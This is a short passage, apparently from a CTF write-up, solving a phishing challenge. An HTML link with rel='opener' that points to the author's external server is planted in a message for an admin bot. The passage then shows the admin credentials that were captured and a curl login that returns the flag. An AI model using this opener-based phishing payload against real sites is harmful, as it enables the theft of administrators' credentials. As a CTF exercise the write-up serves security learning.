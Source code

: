 ```html
<a href="http://pocas.kr/re.html" target="_blank" rel="opener">CSRF</a>
```
Now, create motd using the above payload and pass it to the admin bot.

![](https://media.discordapp.net/attachments/962997469757702177/1087227394970095636/2023-03-20_13.13.22.png?width=1986&height=362)

finally account is sent to my server

```zsh
❯ curl -X POST http://ctf.b01lers.com:5110/login -d "username=n01_5y54dm1n&password=7zzHuXRAp)uj@(qO@Zi0"
bctf{ph15h1ng_reel_w1th_0n3_e}
~
❯
```